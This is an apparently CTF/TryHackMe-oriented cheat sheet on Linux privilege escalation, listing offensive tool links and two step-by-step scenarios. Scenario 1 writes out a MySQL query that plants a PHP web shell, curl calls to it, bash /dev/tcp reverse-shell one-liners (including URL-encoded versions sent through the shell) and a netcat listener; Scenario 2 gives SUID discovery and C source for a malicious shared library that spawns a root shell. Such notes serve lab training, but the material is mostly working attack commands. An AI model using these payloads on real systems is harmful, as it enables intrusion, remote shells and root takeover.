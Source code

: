 # [Linux Privilege Escalation](https://github.com/Haxxenigma/CybSecChallenges/blob/main/TryHackMe/Linux-Privilege-Escalation.md)

[GTFOBins](https://gtfobins.github.io/)

[Linux Kernerl CVEs](https://www.linuxkernelcves.com/cves)

[Rapid7](https://www.rapid7.com/)

[ExploitDB](https://www.exploit-db.com/)

- [Searchsploit - ExploitDB in CLI](https://www.kali.org/tools/exploitdb/)

- [MySQL - User-Defined Function (UDF)](https://www.exploit-db.com/exploits/1518)

### Linux Privilege Escalation Scripts

[LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

[LinEnum](https://github.com/rebootuser/LinEnum)

[Linux Smart Enumeration](https://github.com/diego-treitos/linux-smart-enumeration)

[Linux Priv Checker](https://github.com/linted/linuxprivchecker)

[Linux Exploit Suggester](https://github.com/The-Z-Labs/linux-exploit-suggester)

[Linux Exploit Suggester 2 & Dirty Cow](https://github.com/Haxxenigma/TryHackMe/tree/main/Linux-PrivEsc-Scripts/kernel-exploits)

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)

- [Reverse Shell Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

[pentestmonkey — php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

## Scenario 1 (Bash Reverse Shell)

- SNMP Brute Script

    ```shell
    nmap -sU -p161 -sV --script=snmp-brute <ip>
    ```

- SNMP Processes Script

    ```shell
    nmap -sU -p161 --script=snmp-processes <ip>
    ```

- Interact with MySQL Server

    ```shel
    mysql -u <user> -p<pass> -h <ip>
    ```

- Check whether MySQL service can be leveraged to write into the web root directory

    ```sql
    select "<?php system($_GET['cmd'])?>" into outfile "/var/www/html/shell.php";
    ```

- Access the webshell

    ```shell
    curl http://<ip>/shell.php?cmd=id
    ```

- Bash Reverse Shell

    ```shell
    bash -i >& /dev/tcp/<ip>/<port> 0>&1
    ```

- Bash Reverse Shell Command

    ```shell
    /bin/bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1'
    ```

- URL Encoded Bash Reverse Shell Command

    ```shell
    %2Fbin%2Fbash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F%3Cip%3E%2F%3Cport%3E%200%3E%261%27
    ```

- Execute Bash Reverse Shell Command

    ```shell
    curl 'http://<ip>/shell.php?cmd=%2Fbin%2Fbash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F%3Cip%3E%2F%3Cport%3E%200%3E%261%27'
    ```

- [netcat](https://www.kali.org/tools/netcat/)

    ```shell
    rlwrap nc -vnlp 53
    ```

- Upgrade the shell to a fully interactive shell

    ```shell
    python -c 'import pty; pty.spawn("/bin/bash");'
    ```

    ```shell
    Ctrl + Z
    ```
    
    ```shell
    stty raw -echo
    ```
    
    ```shell
    fg
    ```

## Scenario 2 (SUID binaries & shared libs)

- Search for SUID binaries on the system

    ```shell
    find / -perm -u=s -type f 2>/dev/null
    ```

- execute binary

- Identify *the writable directory* among the *shared library paths*

- Write the c program for malicious shared library

    ```c
    #include<stdio.h>
    #include<stdlib.h>
    #include<unistd.h>

    int welcome(){
        setuid(0);
        setgid(0);
        system("/bin/bash");
    }
    ```

- Compile the shared library

    ```shell
    gcc -shared -o scrypt.so -fPIC scrypt.c
    ```

- Execute `scrypt.so`

# Crontab

[Crontab Generator](https://crontab-generator.org/)

[Crontab Guru](https://crontab.guru/)

```shell
crontab -e
```

# Other cheatsheets

<https://github.com/Rajchowdhury420/CTF-CheatSheet>

<https://dvd848.github.io/CTFs/CheatSheet.html>

<https://github.com/JohnHammond/ctf-katana>

<https://github.com/apsdehal/aWEsoMe-cTf>